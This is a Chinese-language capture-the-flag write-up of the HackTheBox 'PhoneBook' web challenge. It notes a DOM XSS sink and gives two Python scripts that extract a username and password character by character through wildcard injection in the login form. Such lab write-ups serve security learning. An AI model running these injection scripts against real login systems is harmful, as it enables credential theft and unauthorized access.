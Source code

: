 ```yaml
---
title: HackTheBox PhoneBook WriteUP
date: 2023-08-22 09:15:09
tags: 
- HackTheBox
---
```


## 题目

![Who is lucky enough to be included in the phonebook?](image-1.png)

## 思路

题目给出的网页是这样

![index](image-2.png)

看到HTML中有这样一段代码，还以为这题是个DOM XSS(事实上也确实有XSS)

``` HTML
<script>
  const queryString = window.location.search;
if (queryString) {
  const urlParams = new URLSearchParams(queryString);
  const message = urlParams.get('message');
  if (message) {
    document.getElementById("message").innerHTML = message;
    document.getElementById("message").style.visibility = "visible";
    }
  }
</script>
```

但是XSS是需要人触发的，题目中并没有给出任何BOT的信息。

所以最终的解法要落在登录功能上。

## 解题

登录功能可以通过通配符`*`进入，登录成功之后是一个只有搜索框的页面（这里忘记截图了）。搜索功能可以找到若干账户的信息。

![搜索](image-3.png)

题目的提示是：`Who is lucky enough to be included in the phonebook?`，所以我们应该想办法获取能登录的账号密码。

登录功能可以识别通配符，所以直接写脚本遍历就好了。

> userbrute.py

``` python
import requests

url = "http://157.245.43.189:30403/login"
value = ''
flag = True

while(flag):
    flag = False
    for i in range(33,126,1):
        if(chr(i)=='*'):
            continue
        uname = value + chr(i) + '*'
        data = {"username": uname, "password": "*"}
        resp = requests.post(url, data=data, allow_redirects=False)
        print(uname+'\t'+str(resp.status_code))
        if(resp.status_code != 302):
            continue
        if(resp.headers['Location'] == '/'):
            value = value+chr(i)
            print(value)
            flag = True
            break
```

> passbrute.py

``` python
import requests

url = "http://157.245.43.189:30403/login"
value = ''
flag = True

while(flag):
    flag = False
    for i in range(33,126,1):
        if(chr(i)=='*'):
            continue
        password = value + chr(i) + '*'
        data = {"username": "REESE", "password": password}
        resp = requests.post(url, data=data, allow_redirects=False)
        # print(password+'\t'+str(resp.status_code))
        if(resp.status_code != 302):
            continue
        if(resp.headers['Location'] == '/'):
            value = value+chr(i)
            print(value)
            flag = True
            break
```

取得flag：

![flag](image-4.png)

## 后记

~~真正的解题思路是看了别人的writeup才明白的，通配符这是真没想到……~~